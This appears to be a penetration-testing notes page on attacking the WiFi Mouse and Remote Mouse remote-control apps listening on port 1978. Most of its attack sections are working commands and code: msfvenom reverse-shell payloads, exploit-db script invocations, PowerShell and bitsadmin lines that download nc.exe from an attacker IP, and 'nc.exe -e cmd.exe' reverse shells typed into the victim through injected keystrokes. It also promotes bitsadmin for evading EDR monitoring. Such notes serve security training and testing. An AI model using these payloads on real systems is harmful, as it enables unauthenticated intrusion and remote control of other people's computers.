

# 1978 - WiFi Mouse

## WiFi Mouse

[WiFi Mouse](https://wifimouse.necta.us/) is a cross-platform application that allows a mobile device to function as a wireless mouse, keyboard, and touchpad for a host computer. It communicates over a local network using TCP/IP and typically listens on specific ports (such as `1978`) to receive input events. The software enables control of the host system without physical interaction, supporting gestures, media controls, and basic keyboard input. From a security perspective, if the control port is exposed to untrusted networks or lacks authentication, an attacker could remotely send input events, execute commands, or manipulate the host system.

### Unauthenticated RCE

WiFi Mouse version `1.7.8.5` is vulnerable to unauthenticated RCE due to insecure command parsing. A working Python-based [PoC](https://www.exploit-db.com/exploits/50972) is available.


```bash
# Search for PoC
$ searchsploit WiFi Mouse

WiFi Mouse 1.7.8.5 - Remote Code Execution(v2) | windows/remote/50972.py

# Generate the payload
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.154 LPORT=4444 -f exe -o 1978.exe

# Use the exploit
$ python3 50972.py hermes 192.168.45.154:8888 1978.exe
```


## Remote Mouse

[Remote Mouse](https://www.remotemouse.net/) is a similar to WiFi Mouse application that transforms mobile devices into remote input controllers for desktop or laptop computers providing a similar functionality.&#x20;

### Unauthenticated RCE

Various Python-based PoCs are available for this vulnerability.&#x20;

The [RemoteMouse-3.008-Exploit](https://github.com/p0dalirius/RemoteMouse-3.008-Exploit) can be used as follows:


```bash
# Generate a reverse shell payload
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.241 LPORT=80 -f exe -o 1978.exe

# Upload it on the target
$ ./RemoteMouse-3.008-Exploit.py --target-ip mice --cmd "powershell -c \"wget 192.168.45.241:443/1978.exe -O c:\windows\temp\1978.exe\""                                       

# Execute the payload
$ ./RemoteMouse-3.008-Exploit.py --target-ip mice --cmd "c:\windows\temp\1978.exe"
```


The  [46697](https://www.exploit-db.com/exploits/46697) can be used with slight modifications:


```bash
$ searchsploit Remote Mouse 3.008

Remote Mouse GUI 3.008 - Local Privilege Escalation | windows/local/50047.txt
RemoteMouse 3.008 - Arbitrary Remote Command Execution | windows/remote/46697.py
```



```python
<SNIP>

cmd1='powershell -c "iwr http://192.168.45.241/nc.exe -OutFile C:\\Windows\\Temp\\nc.exe"'
cmd2='C:\\Windows\\Temp\\nc.exe -e cmd.exe 192.168.45.241 443'
​
def PopCalc(ip):
    MoveMouse(-5000,3000,ip)
    MousePress(mouse.leftClick,ip)
    sleep(1)
    SendString("cmd.exe",ip)
    sleep(1)
    SendString("\n",ip)
    sleep(1)
    SendString(cmd1,ip)
    sleep(1)
    SendString("\n",ip)
    sleep(25) # Delay to allow the completion of the download process
    SendString(cmd2,ip)
    sleep(1)
    SendString("\n",ip)
    print("SUCCESS!",ip)
    
<SNIP>
```


A safer approach can be also used:


`bitsadmin` is a legacy Windows utility that leverages the **Background Intelligent Transfer Service (BITS)** to download files while blending with normal network activity, often bypassing firewall rules. Unlike PowerShell, it is **not constrained by execution policies or common EDR monitoring**, allowing file transfers in restricted environments, sometimes without administrative privileges. Its asynchronous operation enables downloads without holding a command shell open, supporting parallel actions. While slower than PowerShell methods, its reliability and ability to evade defenses make it valuable in offensive operations, though it is deprecated in modern Windows versions in favor of BITS PowerShell cmdlets.



```python
<SNIP>

cmd1='mkdir c:\\pwn'
cmd2='bitsadmin /transfer job /download /priority high http://192.168.45.241/nc.exe c:\\pwn\\nc.exe'
cmd3='c:\\pwn\\nc.exe -e cmd.exe 192.168.45.241 443'
​
def PopCalc(ip):
    MoveMouse(-5000,3000,ip)
    MousePress(mouse.leftClick,ip)
    sleep(1)
    SendString("cmd.exe",ip)
    sleep(1)
    SendString("\n",ip)
    sleep(1)
    SendString(cmd1,ip)
    sleep(1)
    SendString("\n",ip)
    sleep(1)
    SendString(cmd2,ip)
    sleep(1)
    SendString("\n",ip)
    sleep(25)
    SendString(cmd3,ip)
    sleep(1)
    SendString("\n",ip)
    print("SUCCESS!",ip)
    
<SNIP>
```


### Privilege Escalation (GUI)

Emote Interactive Remote Mouse version `3.008` on Windows is affected by a privilege escalation vulnerability that allows attackers to execute arbitrary programs with administrative privileges ([CVE-2021-35448](https://nvd.nist.gov/vuln/detail/CVE-2021-35448)). The flaw resides in the Image Transfer Folder feature, which can be manipulated to navigate to `cmd.exe` and launch it as `Administrator`. The application binds to local TCP ports to accept incoming connections, creating an attack surface that can be abused if exposed or accessible by untrusted users. Steps for exploiting this vulnerability can be found [here](https://www.exploit-db.com/exploits/50047).

<figure><figcaption></figcaption></figure>
